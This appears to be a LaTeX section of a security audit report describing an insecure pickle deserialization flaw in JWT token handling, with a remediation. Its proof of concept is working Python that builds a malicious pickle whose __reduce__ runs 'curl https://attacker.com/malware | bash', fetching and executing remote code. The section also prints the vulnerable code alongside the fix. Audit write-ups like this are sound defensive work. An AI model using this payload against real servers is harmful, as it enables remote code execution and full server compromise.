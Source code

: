 \documentclass[11pt,a4paper]{article}
\newenvironment{vulnerability}[3]{%
    \begin{tcolorbox}[
        colback=white,
        colframe=#1,
        fonttitle=\bfseries\color{white},
        coltitle=#1,
        title=#2: #3
    ]
}{%
    \end{tcolorbox}
}
\begin{document}
\subsection{V2: Insecure Deserialization (Pickle)}

\begin{vulnerability}{criticalcolor}{Critical}{Insecure Deserialization}
\subsubsection*{Description}
The application uses Python's \texttt{pickle} module to serialize and deserialize JWT tokens. Pickle deserialization of untrusted data allows attackers to execute arbitrary code on the server.

\subsubsection*{Proof of Concept}
An attacker could craft a malicious pickle payload:

\begin{lstlisting}[language=Python]
import pickle
import os
import base64

class EvilPickle:
    def __reduce__(self):
        return (os.system, ('curl https://attacker.com/malware | bash',))

# Create malicious pickle
malicious = pickle.dumps(EvilPickle())
hex_payload = malicious.hex()

# Split like in the application logic
obfuscated = hex_payload[len(hex_payload)//2:] + hex_payload[:len(hex_payload)//2]

# The attacker would then set this as their token cookie
\end{lstlisting}

When the server deserializes this data with \texttt{pickle.loads()}, it executes the attacker's command.

\subsubsection*{Impact}
\begin{itemize}
    \item Remote code execution
    \item Complete server compromise
    \item Data breach
\end{itemize}

\subsubsection*{Remediation}
Removed pickle serialization entirely and used standard JWT encoding/decoding:

\begin{lstlisting}[language=Python]
# Original vulnerable code
token = auth_token[len(auth_token)//2:] + auth_token[:len(auth_token)//2]
data = jwt.decode(pickle.loads(bytes.fromhex(token)), SECRET_KEY, algorithms=["HS256"])

# Fixed code
payload = jwt.decode(token, SECRET_KEY, algorithms=["HS256"])
\end{lstlisting}
\end{vulnerability}
\end{document}
